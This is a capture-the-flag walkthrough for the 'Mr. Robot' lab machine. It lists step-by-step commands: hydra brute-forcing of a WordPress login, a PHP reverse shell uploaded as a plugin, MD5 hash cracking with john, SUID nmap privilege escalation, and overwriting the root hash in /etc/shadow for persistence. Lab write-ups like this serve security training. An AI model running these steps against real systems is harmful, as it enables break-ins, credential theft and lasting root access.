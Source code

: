 # Mr. Robot
_IP: 10.0.4.5_

The first thing I did was an nmap scan which you can find i this folder.
Basicly, it did not tell us much, but I found out that there is site running.

_The first thing I checked was:_
https://10.0.4.5/robots.txt

_This is what I've got:_<br>
> User-agent: *<br>
> fsocity.dic<br>
> key-1-of-3.txt

> [!NOTE]
> _key-1-of-3.txt is a flag for ctf doers._

**After some research I figured out that that was a wordpress site.**<br>
Then, I found the login page and started preparing for bruteforce.
Probably there was an easier way, but I ran BurpSuite intercepted traffic while trying to login, and got this line:<br>
> log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1

This is how looked a command for bruteforcing a username:<br>
`hydra -L fsocity.dic -p test 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid username" -V`
> [80][http-post-form] host: 10.0.4.5   login: Elliot   password: test

Now I need to bruteforce the password. But first we need to remove dublications from the file since there is a lot of them.
`sort fsocity.dic | uniq > new_fsocity.dic`

You can check the lenght of the file before and after using this command:
`wc -l`

Then run password bruteforcing.
`hydra -l Elliot -P n_fsocity.dic 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:The password you entered" -V`

Username: _Elliot_<br>
Password: _ER28-0652_

Looks like I can upload my own plugins, so I found a simple php reverse-shell, and zipped it, so wordpress thinks it is a plugin.
`zip rev-plug.zip ./shell.php`

Upload the plugin, set up a nc listener, and activate the plugin. Now we have a reverse-shell.
Use this command to upgrade the shell:
`python -c 'import pty; pty.spawn("/bin/bash")'`

We can see that there is a user named robot. Go to his folder and we will find:
> key-2-of-3.txt - Second key for ctfers
> password.raw-md5

This is what I have found in password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

Let's crack the hash.
`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt robot_hash.txt`
username: robot
password: abcdefghijklmnopqrstuvwxyz

Change current user to robot.

## Almost there
**Now we need to find a way to escalate our privileges.**

We cannot run sudo. Let's look what we can do.
I used the next command to find files that I can run with their owner privileges.
`find / -perm -u=s -type f 2>/dev/null`
One of these files was nmap.

It is useful to have a simple hash if we need in any case.
> WVLY0mgH0RtUI = mrcake

> [!NOTE]
> https://gtfobins.github.io/
> Useful site to find ways for privilege escalation.

To escalate our privileges with nmap I do:
`nmap --interactive`
`!sh`

Then modify the password of root in /etc/shadow to our known hash, so that you can easily access it again.
`nano /etc/shadow`
`root:WVLY0mgH0RtUI:16753:0:99999:7:::`

**Thank you for attention.**
